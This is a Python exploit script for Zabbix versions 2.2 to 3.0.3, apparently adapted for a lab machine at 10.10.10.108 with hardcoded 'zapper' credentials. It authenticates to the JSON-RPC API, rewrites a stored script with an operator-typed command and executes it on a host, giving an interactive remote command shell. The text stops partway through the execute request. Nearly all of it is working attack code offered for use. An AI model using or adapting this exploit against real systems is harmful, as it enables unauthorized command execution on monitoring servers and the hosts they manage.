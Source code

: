 ```
# Exploit Author: Alexander Gurin
# Vendor Homepage: http://www.zabbix.com
# Software Link: http://www.zabbix.com/download.php
# Version: 2.2 - 3.0.3
# Tested on: Linux (Debian, CentOS)
# CVE : N/A

import requests
import json
import readline

ZABIX_ROOT = 'http://10.10.10.108/zabbix'	## Zabbix IP-address
url = ZABIX_ROOT + '/api_jsonrpc.php'	## Don't edit

login = 'zapper'		## Zabbix login
password = 'zapper'	## Zabbix password
hostid = '10106'	## Zabbix hostid

## auth
payload = {
    "jsonrpc" : "2.0",
    "method" : "user.login",
    "params": {
    	'user': ""+login+"",
    	'password': ""+password+"",
    },
    "auth" : None,
    "id" : 0,
}
headers = {
    'content-type': 'application/json',
}

auth  = requests.post(url, data=json.dumps(payload), headers=(headers))
auth = auth.json()

while True:
	cmd = raw_input('\033[41m[zabbix_cmd]>>: \033[0m ')
	if cmd == "" : print "Result of last command:"
	if cmd == "quit" : break

## update
	payload = {
		"jsonrpc": "2.0",
		"method": "script.update",
		"params": {
		    "scriptid": "1",
		    "command": ""+cmd+"",
		    "execute_on" : "0"
		},
		"auth" : auth['result'],
		"id" : 0,
	}

	cmd_upd = requests.post(url, data=json.dumps(payload), headers=(headers))

## execute
	payload = {
		"jsonrpc": "2.0",
		"method": "script.execute",
		"params": {
		    "scriptid": "1",
		    "hostid": ""+hostid+""
```